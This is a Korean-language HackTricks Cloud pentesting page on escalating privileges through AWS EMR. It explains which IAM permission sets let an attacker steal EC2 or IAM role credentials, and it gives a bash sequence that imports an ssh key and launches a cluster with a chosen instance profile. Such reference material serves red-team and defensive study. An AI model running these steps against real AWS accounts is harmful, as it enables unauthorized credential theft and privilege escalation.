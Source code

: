 # AWS - EMR 권한 상승

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## EMR

**EMR에 대한 자세한 정보**는 다음에서 확인할 수 있습니다:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

이 권한을 가진 공격자는 **새 EMR 클러스터를 실행하고 EC2 역할을 연결하여 자격 증명을 탈취**할 수 있습니다.\
이를 수행하려면 **계정에 가져온 일부 ssh 개인 키를 알고 있거나 가져와야 하며**, **마스터 노드에서 포트 22을 열 수 있어야** 합니다 (`--ec2-attributes` 내부의 `EmrManagedMasterSecurityGroup` 및/또는 `ServiceAccessSecurityGroup` 속성을 사용하여 수행할 수 있을 수 있습니다).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
참고로 **EMR 역할**은 `--service-role`에서 지정되고 **ec2 역할**은 `InstanceProfile` 내부의 `--ec2-attributes`에서 지정됩니다. 그러나 이 기술은 EC2 역할 자격 증명을 도용할 수 있지만 (SSH를 통해 연결할 수 있음) EMR IAM 역할은 도용할 수 없습니다.

**잠재적인 영향:** 지정된 EC2 서비스 역할로의 권한 상승.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

이러한 권한을 가진 공격자는 **AWS 콘솔**로 이동하여 노트북을 생성하고 해당 노트북에 액세스하여 IAM 역할을 도용할 수 있습니다.

{% hint style="danger" %}
노트북 인스턴스에 IAM 역할을 부여해도 제 테스트에서 AWS 관리 자격 증명을 도용할 수 있었지만 IAM 역할 관련 자격 증명을 도용할 수 없었습니다.
{% endhint %}

**잠재적인 영향:** arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 AWS 관리 역할 권한 상승

### `elasticmapreduce:OpenEditorInConsole`

이 권한만으로도 공격자는 **Jupyter Notebook에 액세스하여 연결된 IAM 역할을 도용**할 수 있습니다.\
노트북의 URL은 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`입니다.

{% hint style="danger" %}
노트북 인스턴스에 IAM 역할을 부여해도 제 테스트에서 AWS 관리 자격 증명을 도용할 수 있었지만 IAM 역할 관련 자격 증명을 도용할 수 없었습니다.
{% endhint %}

**잠재적인 영향:** arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile로의 AWS 관리 역할 권한 상승

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop) 확인!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass) 참여 또는 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 팔로우**하여 해킹 요령 공유.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR 제출하여 해킹 요령 공유.

</details>
{% endhint %}
